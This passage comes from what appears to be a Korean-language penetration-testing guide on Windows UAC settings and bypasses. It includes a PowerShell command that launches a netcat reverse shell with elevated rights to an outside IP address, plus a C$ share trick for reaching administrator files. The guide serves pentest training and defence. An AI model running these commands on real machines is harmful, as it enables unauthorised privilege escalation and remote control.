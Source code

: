 마지막으로 **`FilterAdministratorToken`** 키의 값을 확인해야 합니다.\
값이 **`0`**(기본값)인 경우, **내장 관리자 계정은** 원격 관리 작업을 수행할 수 있으며, **`1`**인 경우 내장 관리자 계정은 `LocalAccountTokenFilterPolicy`가 `1`로 설정되지 않는 한 원격 관리 작업을 수행할 수 없습니다.

#### 요약

- `EnableLUA=0` 또는 **존재하지 않으면**, **누구에게도 UAC 없음**
- `EnableLua=1`이고 **`LocalAccountTokenFilterPolicy=1`**이면, 누구에게도 UAC 없음
- `EnableLua=1`이고 **`LocalAccountTokenFilterPolicy=0`** 및 **`FilterAdministratorToken=0`**이면, RID 500 (내장 관리자)에게는 UAC 없음
- `EnableLua=1`이고 **`LocalAccountTokenFilterPolicy=0`** 및 **`FilterAdministratorToken=1`**이면, 모두에게 UAC 있음

이 모든 정보는 **metasploit** 모듈: `post/windows/gather/win_privs`를 사용하여 수집할 수 있습니다.

사용자의 그룹을 확인하고 무결성 수준을 얻을 수도 있습니다:
```
net user %username%
whoami /groups | findstr Level
```
## UAC 우회

> [!TIP]
> 피해자에게 그래픽 접근이 가능하다면, UAC 프롬프트가 나타날 때 "예"를 클릭하면 UAC 우회가 간단합니다.

UAC 우회는 다음 상황에서 필요합니다: **UAC가 활성화되어 있고, 프로세스가 중간 무결성 컨텍스트에서 실행되며, 사용자가 관리자 그룹에 속하는 경우**.

UAC가 **가장 높은 보안 수준(항상)에 있을 때 우회하는 것이 다른 수준(기본)에 비해 훨씬 더 어렵다는 점을 언급하는 것이 중요합니다.**

### UAC 비활성화

UAC가 이미 비활성화된 경우(`ConsentPromptBehaviorAdmin`이 **`0`**) **관리자 권한으로 리버스 셸을 실행할 수 있습니다** (높은 무결성 수준) 다음과 같은 방법을 사용하여:
```bash
#Put your reverse shell instead of "calc.exe"
Start-Process powershell -Verb runAs "calc.exe"
Start-Process powershell -Verb runAs "C:\Windows\Temp\nc.exe -e powershell 10.10.14.7 4444"
```
#### UAC 우회 토큰 복제

- [https://ijustwannared.team/2017/11/05/uac-bypass-with-token-duplication/](https://ijustwannared.team/2017/11/05/uac-bypass-with-token-duplication/)
- [https://www.tiraniddo.dev/2018/10/farewell-to-token-stealing-uac-bypass.html](https://www.tiraniddo.dev/2018/10/farewell-to-token-stealing-uac-bypass.html)

### **매우** 기본적인 UAC "우회" (전체 파일 시스템 접근)

관리자 그룹에 속한 사용자로 쉘을 가지고 있다면 **C$** 공유를 SMB(파일 시스템)를 통해 새로운 디스크에 로컬로 마운트할 수 있으며, **파일 시스템 내의 모든 것에 접근할 수 있습니다** (관리자 홈 폴더 포함).

> [!WARNING]
> **이 트릭은 더 이상 작동하지 않는 것 같습니다**
```bash
net use Z: \\127.0.0.1\c$
cd C$

#Or you could just access it:
dir \\127.0.0.1\c$\Users\Administrator\Desktop
```
### UAC 우회와 코발트 스트라이크
